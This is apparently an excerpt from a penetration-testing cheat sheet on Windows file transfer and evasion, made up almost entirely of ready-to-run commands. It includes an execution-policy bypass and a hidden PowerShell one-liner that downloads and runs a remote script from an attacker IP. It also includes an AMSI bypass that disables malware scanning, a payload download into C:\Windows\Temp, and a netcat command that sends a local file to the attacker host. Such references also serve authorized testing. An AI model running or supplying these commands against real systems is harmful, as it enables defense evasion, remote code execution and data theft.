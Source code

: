 ## Bypass Techniques

### PowerShell Execution Policy Bypass
```powershell
# Bypass execution policy
powershell -ExecutionPolicy Bypass -File script.ps1

# One-liner bypass
powershell -ep bypass -NoP -NonI -W Hidden -c "IEX((New-Object Net.WebClient).DownloadString('http://10.10.10.1:8000/script.ps1'))"
```

### AMSI Bypass
```powershell
# Simple AMSI bypass (use with caution, often detected)
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

## Proxy-Aware Transfers

```powershell
# Set proxy for PowerShell
$proxy = New-Object System.Net.WebProxy("http://proxy.example.com:8080")
$proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
$webClient = New-Object System.Net.WebClient
$webClient.Proxy = $proxy
$webClient.DownloadFile("http://10.10.10.1:8000/payload.exe", "C:\Windows\Temp\payload.exe")
```

## RDP File Transfer

```
# Copy and Paste
# Enable clipboard sharing in your RDP client
# Copy file on local machine
# Paste in RDP session

# RDP Drive Sharing
# In mstsc.exe, go to Local Resources > More > Drives and select your drive
# Access it from \\tsclient\C
```

## Post-Exploitation Tools

### NetCat for Windows
```cmd
:: Receive file
nc.exe -lvp 4444 > received_file.exe

:: Send file
nc.exe 10.10.10.1 4444 < C:\Windows\Temp\data.txt
```
